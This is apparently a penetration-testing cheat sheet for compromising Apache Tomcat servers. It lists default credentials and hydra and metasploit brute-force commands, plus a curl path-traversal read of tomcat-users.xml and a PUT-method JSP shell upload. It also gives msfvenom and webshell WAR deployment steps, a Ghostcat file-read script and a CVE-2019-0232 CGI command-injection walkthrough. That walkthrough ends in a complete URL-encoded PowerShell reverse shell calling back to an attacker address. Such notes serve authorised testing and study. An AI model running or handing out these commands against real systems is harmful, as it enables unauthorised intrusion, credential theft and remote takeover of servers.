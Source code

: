 - Always check /cgi/ for .bat/.cmd scripts
- metasploit `exploit/multi/http/tomcat_cgi_cmdlineargs`

###     Key Files
- `conf/tomcat-users.xml` - Contains users and roles
- `webapps/APP/WEB-INF/web.xml` - Application configuration
- `webapps/APP/WEB-INF/classes/` - Compiled Java classes


### Default credentials:
- `tomcat:tomcat`
- `admin:admin`
- `role1:role1`
- `both:tomcat`

```bash
# Brute Force 
hydra -L users.txt -P passwords.txt target http-get /manager/html

# Extract Credentials from tomcat-users.xml If you have LFI:
curl http://target/vuln.jsp?file=../../../../conf/tomcat-users.xml

# CVE-2017-12615 (PUT Method RCE)
curl -X PUT http://target:8080/shell.jsp/ -d @shell.jsp
```

## Reverse Shell (After login)
```bash
# Create JSP shell:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f war > shell.war

# Alternative JSP Shell
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r shell.war cmd.jsp
```
- Access /manager/html
- Upload WAR file
- Access deployed shell at /shell/


### Brute Force Attacks
- msfconsole
```bash
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS <target_ip>
set RPORT <port>
set STOP_ON_SUCCESS true
set VHOST <domain_if_needed>
run
```
- python script
```bash
python3 tomcat_brute.py -U http://target:8080 -P /manager/html -u users.txt -p passwords.txt
```
 
 ## Ghostcat Exploit (CVE-2020-1938)
 ```bash
 # Exploit (LFI)
 # https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi
 python2 tomcat-ajp-lfi.py target -p 8009 -f WEB-INF/web.xml
```


## Tomcat CGI RCE (CVE-2019-0232)
#### Vulnerability Overview
- Affects: Apache Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, 7.0.0 to 7.0.93
- Impact: RCE on Windows when enableCmdLineArguments=true (default in older versions).
- Root Cause: Improper input validation in CGI Servlet → OS command injection.

#### 1. Find CGI Scripts
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://<target>:8080/cgi/FUZZ.bat
```
- Common extensions: .bat, .cmd (Windows)

#### 2. Exploitation
#### Step 1: Verify CGI Execution
```bash
http://<target>:8080/cgi/welcome.bat?&dir
```
#### Step 2: Bypass Filtering
- Problem: Tomcat blocks special chars (\, :, etc.).
- Solution: URL-encode the payload:
```bash
http://<target>:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```
- Decodes to: c:\windows\system32\whoami.exe

#### Step 3: Execute Arbitrary Commands
- Reverse Shell (PowerShell):
```bash
http://<target>:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5CWindowsPowerShell%5Cv1.0%5Cpowershell.exe+-nop+-c+"$client+=New-Object+System.Net.Sockets.TCPClient('YOUR_IP',4444);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length))-ne0){;$data=(New-Object-Text.ASCIIEncoding).GetString($bytes,0,$i);$sb=(iex+$data+2>&1|Out-String);$sb2=$sb+'PS+'+$(pwd).Path+'>+';$sbt=([text.encoding]::ASCII).GetBytes($sb2);$stream.Write($sbt,0,$sbt.Length);$stream.Flush()};$client.Close()"
```


##### Roles explained:
- `manager-gui`: access /manager/html
- `manager-script`: HTTP API access
- `manager-status`: status page only
- `admin-gui`: full admin access